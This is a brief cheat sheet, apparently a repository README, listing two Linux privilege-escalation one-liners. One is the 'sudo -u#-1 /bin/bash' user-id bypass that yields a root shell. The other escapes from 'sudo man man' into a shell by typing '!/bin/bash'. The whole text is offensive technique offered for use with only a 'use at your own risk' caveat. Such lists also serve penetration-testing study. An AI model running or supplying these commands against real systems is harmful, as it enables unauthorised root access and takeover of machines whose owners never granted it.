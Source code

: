 # A collection of small linux priv esc commands
use at your own risk

---
`sudo -u#-1 /bin/bash` \
You can use sudo -l to specify what you can run as sudo

---
`sudo man man` then type `!/bin/bash` \
This works if you can only sudo some commands, and they use the linux pagnation thing
